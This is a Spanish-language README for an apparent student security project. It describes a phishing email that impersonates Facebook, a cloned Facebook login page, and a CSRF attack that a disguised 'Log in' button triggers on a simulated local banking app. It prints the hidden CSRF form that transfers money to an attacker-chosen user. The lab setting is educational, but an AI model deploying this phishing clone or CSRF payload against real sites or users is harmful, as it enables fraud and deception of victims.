


# CSRF-phising
Parte practica del trabajo tutelado SSI. 

Consiste en enviar un formulario por correo electrónico haciéndose pasar por un correo enviado por facebook. Al hacer click en alguno de los botones del contenido del correo, redirige a una página que es un clon de la página de inicio de sesión de Facebook. El usuario pensará que debe loggearse para ver sus notificaciones, al hacer click en el botón de Iniciar sesión, se realiza un ataque CSRF a un sitio web ,en este caso será un sistema bancario simulado. 

El ataque consiste en enviar al sitio web vulnerable el siguiente formulario: 

  ```
  # facebook_mask.php: 
  
  <form action="process_vulnerable.php?action=transfer" method="POST">
  
  <input type="hidden" name="destinatary" value="usuario">
  <input type="hidden" name="quantity" value="1000">
  <td><div id="button"><input type="submit" value="Log in" id="button"></div></td>
  
  </form>
  ```
  
  Donde value="usuario" es el usuario al que se le transfiere dinero
  y value="1000" es la cantidad de dinero que se transfiere. 
  Por el momento todo se hace en un servidor local, la accion del formulario sería:  http://127.0.0.1/csrf/process_vulnerable.php
  
  

# Descripcion de archivos

* ``` login_vulnerable.php ``` :
Es una sitio web que simula una aplicación de intercambio de dinero. 
Al iniciar sesión, permite ver la cantidad de dinero que tiene el usuario, además que permite enviar dinero a otro usuario. 

* ``` process_vulnerable.php ``` :
Permite procesar la información que genera ``` login_vulnerable.php ```

* ``` facebook_mask.php ``` :
Es un clon de la página de inicio de sesión de Facebook.

* ``` fake_facebook.html ``` :
Es una plantilla para el contenido HTML de un correo electrónico.

# Screenshot

Contenido de correo electrónico: 


Clon de facebook:



